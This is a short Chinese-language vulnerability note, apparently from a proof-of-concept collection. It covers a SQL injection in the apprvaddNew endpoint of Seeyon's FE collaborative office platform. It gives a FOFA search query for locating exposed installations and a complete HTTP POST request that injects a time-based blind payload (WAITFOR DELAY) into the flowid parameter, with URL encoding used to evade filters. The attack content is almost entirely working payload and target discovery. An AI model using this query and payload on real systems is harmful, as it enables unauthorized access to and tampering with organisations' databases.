 # 致远互联FE协作办公平台apprvaddNew存在sql注入漏洞

## fofa

```java
title="FE协作办公平台" || body="li_plugins_download"
```

## poc

```java
POST /witapprovemanage/apprvaddNew.j%73p HTTP/1.1
Host:
User-Agent:Mozilla/5.0 (WindowsNT10.0;Win64; x64) AppleWebKit/537.36 (KHTML, likeGecko)Chrome/96.0.4664.93Safari/537.36
Content-Type:application/x-www-form-urlencoded

flowid=1';WAITFOR+DELAY+'0:0:5'--+---
```

![image-20240801195718315](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202408011957376.png)